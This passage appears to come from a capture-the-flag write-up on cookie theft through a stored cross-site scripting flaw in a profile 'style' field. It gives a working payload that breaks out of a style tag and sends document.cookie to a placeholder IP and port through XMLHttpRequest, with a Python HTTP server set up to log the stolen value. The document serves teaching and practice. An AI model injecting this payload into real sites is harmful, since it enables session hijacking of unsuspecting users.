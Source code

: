 There are many different payloads that we can use to extract cookies; however, a lot of sample payloads you find online might not work. Payloads that require the browser automatically loading an external resource (for example, using the `onerror` attribute of an `img` tag) will not work, and the Javascript library is a bit old, so the `fetch` function is not defined. Instead, we need to write older, simpler Javascript like the code below, which works for our purposes. It makes an HTTP request back to an IP and port with the cookie included as a `GET` parameter. If we run a web server with sufficient logging, we can retrieve the cookie `GET` parameter from the request. 

First, we need to set up the web server to capture the incoming request. We can use one of Python's built in modules to do this with `python -m http.server`. This starts a web server in our local directory and the script will print the requested URL (including any `GET` parameters) any time someone makes a request to the server. By default, Python's simple HTTP server will listen on port `8000`, and we can find our IP address with `ip a`. Inject the following Javascript into the "style" input on your profile, replacing the IP and port with your values.

```javascript
</style>
<script>
    x = new XMLHttpRequest()
    x.open('GET', 'http://{IP}:{PORT}?cookie=' + document.cookie);
    x.send();
</script>
<style>
```

We don't actually have any `httpOnly=false` cookies on this site, however. When this option is false, as hinted at in the challenge description, allows for cookies to be accessible by Javascript. To test our XSS payload, add a cookie yourself or change one of the existing cookies to be accessible to Javascript by setting `httpOnly=false`. The following image shows a new `test` cookie with value `test` and highlights the "Add Item" plus symbol used to add new cookies; the `httpOnly` column should default to false, but you can manually change it if needed.

![Screenshot of the new test cookie](./imgs/XSS-test-cookie.png "New test cookie with httpOnly set to false")

